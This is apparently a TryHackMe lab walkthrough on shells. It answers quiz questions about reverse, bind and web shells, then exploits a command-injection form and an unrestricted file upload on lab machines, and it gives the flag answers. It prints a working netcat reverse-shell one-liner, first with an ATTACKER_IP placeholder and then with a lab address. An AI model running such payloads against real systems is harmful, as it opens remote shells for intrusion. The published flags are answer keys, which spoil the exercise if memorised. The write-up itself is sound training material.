# 🐚 TryHackMe — Shells Overview Walkthrough

This is a walkthrough of **Shells Overview** from **TryHackMe**

---

## 🧩 Task 2 — Shell Overview

**Question 1:**  
What is the command-line interface that allows users to interact with an operating system?  
> In the task, a shell is defined as “- software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface…”  
**Answer:** `Shell`

---

**Question 2:**  
What process involves using a compromised system as a launching pad to attack other machines in the network?  
> In the task, one of the several malicious shell activities defined “Access Other Systems on the Network”, stating that a goal can be to traverse the network to a different target from the initial exploited target in order to pivot to another compromised system.  
**Answer:** `Pivoting`

---

**Question 3:**  
What is a common activity attackers perform after obtaining shell access to escalate their privileges?  
> The answer would be in the question that it asks—  
**Answer:** `Privilege Escalation`

---

## 🔁 Task 3 — Reverse Shell

**Question 1:**  
What type of shell allows an attacker to execute commands remotely after the target connects back?  
> As stated in the task a reverse shell or “connect back shell” “- is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker’s machine, which can help avoid detection from network firewalls and other security appliances.”  
**Answer:** `Reverse Shell`

---

**Question 2:**  
What tool is commonly used to set up a listener for a reverse shell?  
**Answer:** `netcat`

---

## 📡 Task 4 — Bind Shell

**Question 1:**  
What type of shell opens a specific port on the target for incoming connections from the attacker?  
> In the task, a bind shell is known as a shell that binds a port on the compromised system. In order for the attacker to connect, the victim machine has to allow it due to firewall restrictions.  
**Answer:** `Bind Shell`

---

**Question 2:**  
Listening below which port number requires root access or privileged permissions?  
> Anything under this number requires netcat to be executed with elevated privileges. (Using port 8080 avoids).  
**Answer:** `1024`

---

## 🧠 Task 5 — Shell Listeners

**Question 1:**  
Which flexible networking tool allows you to create a socket connection between two data sources?  
> In the task, Socat is explained as “a utility that allows you to create a socket connection between two data sources, in this case, two different hosts.”  
**Answer:** `Socat`

---

**Question 2:**  
Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener?  
> In the task, rlwrap is described as a utility that “uses the GNU readline library to provide editing keyboard and history.”  
**Answer:** `rlwrap`

---

**Question 3:**  
What is the improved version of Netcat distributed with the Nmap project that offers additional features like SSL support for listening to encrypted shells?  
**Answer:** `ncat`

---

## 💻 Task 6 — Shell Payloads

**Question 1:**  
Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?  
> Python has a payload that utilizes a subprocess module to “-spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.”  
**Answer:** `Subprocess`

---

**Question 2:**  
What shell payload method in a common scripting language uses the exec, shell_exec, system, passthru, and popen functions to execute commands remotely through a TCP connection?  
**Answer:** `PHP`

---

**Question 3:**  
Which scripting language can use a reverse shell by exporting environment variables and creating a socket connection?  
**Answer:** `Python`

---

## 🌐 Task 7 — Web Shell

**Question 1:**  
What vulnerability type allows attackers to upload a malicious script by failing to restrict file types?  
> What I don’t like in this question is the interchangeable terms revolving around “shell”, “script”, and “file”. Try not to get tripped up with this.

---

## ⚙️ Task 8 — Practical Task

- `10.201.113.218:8080` hosts the landing page  
- `10.201.113.218:8081` hosts the web application that is vulnerable to command injection  
- `10.201.113.218:8082` hosts the web application that is vulnerable to an unrestricted file upload  

---

### 🧨 Question 1  
Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the `/` directory?

I'll start with the URL of the target page. 


The target page (port 8080) redirects us to a URL on port 8081 — that's exactly when I noticed an opportunity to inject malicious commands through the input field.


First, I need to listen on the specified IP and port. Second, I need a payload that will provide a reverse shell.


Set up a netcat listener on port 8081. Once netcat started accepting connections from the target machine, I needed a payload to get a reverse shell on the web server.

The task originally provided a payload template:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

I replaced ATTACKER_IP/PORT with my details:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.217.140 8081 >/tmp/f
```
**Then my AttackBox froze, so the data about my IP and the target IP changed.**





The site is currently stuck loading while I can browse the server for the flag.



Listing the root directory and outputting the flag file contents using ***cat***.



**Answer:** `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}`

### 🕸️ Question 2
Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the `/ ` directory?

Return to the landing page.



Our focus now is the “Web Shell Task.”



This is similar to the input command-injection vulnerability, but here an unrestricted file upload is used to gain a reverse shell — in other words, a web shell. I’ll accomplish this by uploading a small web shell.

Creating that **.php** web shell is critical for what comes next. You can either find or create a simple PHP snippet that can browse and display files via the URL.

I need to create a **.php** file, insert the command, then upload it through the “Upload Your CV” field.





On the page, click **“Browse…”**, locate the file, then choose **“Open”** and upload the **.php** file.







Following the hint in the challenge, the area of relevance appears to be **/uploads**, not **/**.



**Answer:** `THM{202bb14ed12120b31300cfbbbdd35998786b44e5}`


